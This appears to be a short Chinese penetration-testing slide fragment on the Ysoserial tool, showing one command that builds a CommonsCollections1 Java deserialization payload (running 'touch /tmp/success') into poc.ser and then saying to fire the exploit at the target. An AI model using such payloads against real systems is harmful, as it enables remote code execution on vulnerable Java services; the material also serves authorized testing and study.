

# 渗透测试中的使用
Ysoserial工具

先生成反序列化之后的对象序列化流文件
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections1 "touch /tmp/success" > poc.ser

使用exp直接打即可